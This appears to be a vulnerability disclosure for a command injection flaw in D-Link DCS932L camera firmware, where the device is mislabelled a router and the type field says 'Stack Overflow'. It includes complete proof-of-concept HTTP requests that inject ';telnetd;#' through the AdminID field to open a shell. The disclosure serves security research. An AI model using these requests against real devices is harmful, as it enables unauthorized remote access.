



# D-Link Vulnerability

Vendor:D-Link

Product:DCS932L

Version:2.18.01

Type:Stack Overflow

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an Command Injection vulnerability in D-Link router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `alphapd` binary:

In the router's `setSystemWizard、setSystemControl` function, `AdminID` is directly passed by the attacker, so we can control the `AdminID` to attack the OS.

As you can see here, the input has not been checked. And then,call the function `nvram_bufset ` to store this input.

<div  align="center"></div>

In `setSystemAdmin` function, the initial input will be extracted. Eventually, the initial input will cause command injection.

<div  align="center"></div>

**Supplement**

The trigger point of this vulnerability is deep in the program path, so we recommend that the string content should be strictly checked when extracting user input.

Vulnerability trigger steps:

* set `AdminID`, in `setSystemWizard、setSystemControl`
* visit the `setSystemAdmin`


## PoC

We set `AdminID` as **';telnetd;#** , in `setSystemWizard、setSystemControl`

```http
POST /setSystemWizard HTTP/1.1
Host: 192.168.1.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 443
Origin: http://192.168.1.2
Authorization: Basic YWRtaW46
Connection: close
Referer: http://192.168.1.2/wizsetup.htm
Upgrade-Insecure-Requests: 1

ReplySuccessPage=wizard.htm&ReplyErrorPage=wizard.htm&DateTimeMode=1&TimeZoneIndex=01%28GMT-12%3A00%29&Date=2015-01-01&Time=00%3A02%3A19&f_year=2015&f_month=1&f_date=1&f_hour=0&f_min=2&f_sec=19&IPAddressMode=4&IPAddress=192.168.0.20&SubnetMask=255.255.255.0&DefaultGateway=&PPPoEUserID=&PPPoEPassword=&DNSIPAddress1=&DNSIPAddress2=&DDNSEnable=0&CameraName=DCS-932L&TimeZoneSelect=01%28GMT-12%3A00%29&ConfigSystemWizard=Save&AdminID=';telnetd;#
```

visit the `setSystemAdmin`

```http
POST /setSystemAdmin HTTP/1.1
Host: 192.168.1.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 206
Origin: http://192.168.1.2
Authorization: Basic Jzt0ZWxuZXRkOyM6
Connection: close
Referer: http://192.168.1.2/advanced.htm
Upgrade-Insecure-Requests: 1

ReplySuccessPage=advanced.htm&ReplyErrorPage=errradv.htm&AdminID=admin&UserID1=&UserID2=&UserID3=&UserID4=&UserID5=&UserID6=&UserID7=&UserID8=&AdminPassword=admin&AdminKey=1420070596&ConfigSystemAdmin=Apply
```


## Result

Get a shell!

<div  align="center"></div>
